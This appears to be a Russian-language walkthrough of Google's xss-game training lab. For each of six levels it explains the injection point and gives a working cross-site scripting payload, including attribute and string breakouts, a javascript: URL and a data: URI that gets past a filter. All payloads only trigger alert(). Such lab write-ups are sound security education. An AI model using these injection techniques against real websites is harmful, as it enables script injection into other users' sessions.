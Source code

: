 # Разбор xss-game от google

![xss-game-start](https://user-images.githubusercontent.com/74491315/147869811-e1fb566e-1e50-4c17-a8d1-15c19b1f8a41.png)

## [1/6]  Level 1: Hello, world of XSS

Видим строку поиска, тыкаем, видим, что улетает GET запрос с параметром ```query```. В ответе говорится, что по моему запросу ничего не найдено. Пробуем скормить спецсимволы, видим, что они встраиваются в DOM.

Тупо скармливаем нагрузку:

```html
<script>alert()</script>
```

## [2/6]  Level 2: Persistence is key

На странице можно оставить комментарий. Пробуем загрузить картинку по несуществующему адресу и вешаем обработчик ошибок:

```html
<img src=qwe onerror=alert()>
```

## [3/6]  Level 3: That sinking feeling...

Итак, видим, что мы можем манипулировать адресом, по которому загружается картинка на страницу. Забавно, что для рендеринга имени картинки парсится ввод, а для формирования адреса нет.

```js
var html = "Image " + parseInt(num) + "<br>";
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```
Посему, наша нагрузка будет выглядить так:
```
1337' onerror=alert() qwe='
```
С помощью кавычки выходим из контекста имени картинки, вешаем обработчик и добавляем еще один параметр, чтобы расширение картинки не ломало контекст. Получился валидный html:

```html
<img src='/static/level3/cloud1337' onerror=alert()  qwe='.jpg' />
```

## [4/6]  Level 4: Context matters

Тут есть форма, которая шлёт GET запрос с параметром ```timer```. Видим, что далее рендерится страница ```timer.html```

Видим, что мы можем манипулировать аргументом функции обработчика:

![timer](https://user-images.githubusercontent.com/74491315/147869660-e547470a-bda9-4ebe-b721-ba030938f04a.png)

Наша нагрузка будет выглядить так:

```
1');alert('
```

Опять же, выходим из контекста аргумента функции ```startTimer``` и встраиваем свой код:

```html
<img src="/static/loading.gif" onload="startTimer('1');alert('');" />
```

## [5/6]  Level 5: Breaking protocol

Переходим по ссылке для регистрирации, видим, поле для ввода ```email``` и ссылку ```Next```. Видим, что мы можем манипулировать значением ```href```:

![image](https://user-images.githubusercontent.com/74491315/147869720-2e5e9330-4c84-4d67-b9fa-ca7d6360abad.png)

Все просто, используем протокол ```javascript``` и исполняем свой код:

```
javascript:alert()
```
## [6/6]  Level 6: Follow the 🐇

Не сложно догадаться, что путь ```/static/gadget.js``` в урле неспроста. На странице говорится, что гаджет загружен из ```/static/gadget.js```. Так же мы видим регулярку, которая не дает нам скормить ссылку с протоколами ```https``` и ```http```:

```js
if (url.match(/^https?:\/\//)) {
  setInnerText(document.getElementById("log"),
  "Sorry, cannot load a URL containing \"http\".");
  return;
}
```

Ок, браузер умеет [встраивать файлы прямо в документ](https://developer.mozilla.org/ru/docs/Web/HTTP/Basics_of_HTTP/Data_URIs), чем мы и воспользуемся:

```
data:text/javascript,alert()
```

Вот и всё :)

![xss-game-done](https://user-images.githubusercontent.com/74491315/147869862-574df19a-3528-451c-8577-5da656429c93.png)

